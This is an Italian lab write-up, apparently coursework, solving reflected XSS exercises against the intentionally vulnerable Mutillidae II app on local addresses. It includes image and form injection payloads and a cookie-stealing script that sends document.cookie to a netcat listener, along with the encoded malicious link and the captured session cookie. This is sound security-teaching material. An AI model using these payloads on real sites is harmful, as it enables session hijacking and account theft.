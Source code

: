 # Esercizio 1
Esercizio 1 - XSS Reflected
Per questa tipologia di esercizi si può fare riferimento alla pagina (A3 - Cross Site Scripting (XSS) -> Reflected (First Order) -> User Info) raggiungibile all’indirizzo http://127.0.0.1/mutillidae/index.php?page=user-info.php. 
Come primo passo occorre valutare se la pagina è effettivamente soggetta a
vulnerabilità di tipo XSS di tipo riflesso.
## Esercizio 1.1 - Iniezione di un’immagine
In questo esercizio viene richiesto di inserire un’immagine tramite l’input text disponibile alla pagina. Per caricare un’immagine occorre utilizzare il tag html img. ref

Input "ciao"

```
&username=ciao&password=&user-info-php-submit-button=View+Account+Details
```

Chiudere il tag html ed aggiungere codice arbitrario:
```
><img src="https://i.kym-cdn.com/photos/images/newsfeed/003/034/402/a4e.png"></img>
```

## Esercizio 1.2 - Iniezione di un form html
In questo esercizio viene richiesto di inserire, tramite l’input text disponibile alla pagina, un form html che accetti un ulteriore campo input.
Un form è identificata dal tag html form ref, mentre il campo input https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input.

Form + Input:

```
><form action="https://www.google.com/search" method="get">
    <input type="text" name="q" />
    <input type="submit" value="Cerca" />
</form>
```



## Esercizio 1.3 - Ottenimento dei cookie di sessione (Cookie stealing)
In questo esercizio viene richiesto di realizzare un semplice applicativo server che stampi il
contenuto delle richieste POST ricevute (eseguitelo su localhost).
Consiglio: realizzare il web server utilizzando il linguaggio Python usando http.server
ref. Se eseguito su proprio host per problemi relativi a Cross-Origin Resource Sharing
(CORS) https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS utilizzare
Access-Control-Allow-Origin.
Una volta creato il server web si richiede di iniettare un codice javascript in grado di inviare i
cookie di sessione dell’utente malevolo.
Per testarlo:
• Iniettare lo script malevolo nella pagina http://127.0.0.1/mutillidae/index.php?page=user-
info.php e generare un URL malevolo.
• Loggarsi sull’applicativo Mutillidae II con uno degli utenti presenti nel database.
• Navigare al link malevolo generato e visualizzare sul server python i cookie di sessione
dell’utente.

Prima cosa, aprire un server nc:
```
nc -l 8080
``` 

Poi, iniettare il codice javascript:
```
<script>
    var x = new XMLHttpRequest();
    x.open("POST", "http://192.168.64.1:8080", true);
    x.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    x.send("cookie=" + document.cookie);
</script>
```

Sotto forma di link urlendoded:
```
http://192.168.64.21//mutillidae/index.php?page=user-info.php&username=%3E%3Cscript%3E+++++var+x+%3D+new+XMLHttpRequest%28%29%3B+++++x.open%28%22POST%22%2C+%22http%3A%2F%2F192.168.64.1%3A8080%22%2C+true%29%3B+++++x.setRequestHeader%28%22Content-Type%22%2C+%22application%2Fx-www-form-urlencoded%22%29%3B+++++x.send%28%22cookie%3D%22+%2B+document.cookie%29%3B+%3C%2Fscript%3E&password=&user-info-php-submit-button=View+Account+Details
```

Spiegazione:
- Viene creato un oggetto XMLHttpRequest per inviare una richiesta HTTP.
- Viene aperta una connessione POST al server locale sulla porta 8080.
- Viene impostato l'intestazione della richiesta per indicare che il contenuto è di tipo "application/x-www-form-urlencoded".
- Viene inviato il cookie dell'utente al server locale.
- Il server locale riceve la richiesta e stampa il cookie dell'utente.

Sul server NetCat ricevo:
```
nc -l 8080
POST / HTTP/1.1
Host: 192.168.64.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.4 Safari/605.1.15
Accept: */*
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.64.21/
Origin: http://192.168.64.21
Content-Length: 56
Accept-Language: it-IT,it;q=0.9
Priority: u=3, i
Accept-Encoding: gzip, deflate
Connection: keep-alive

cookie=showhints=1; PHPSESSID=9f5qu5n2ldvo56b369qk55p641
```

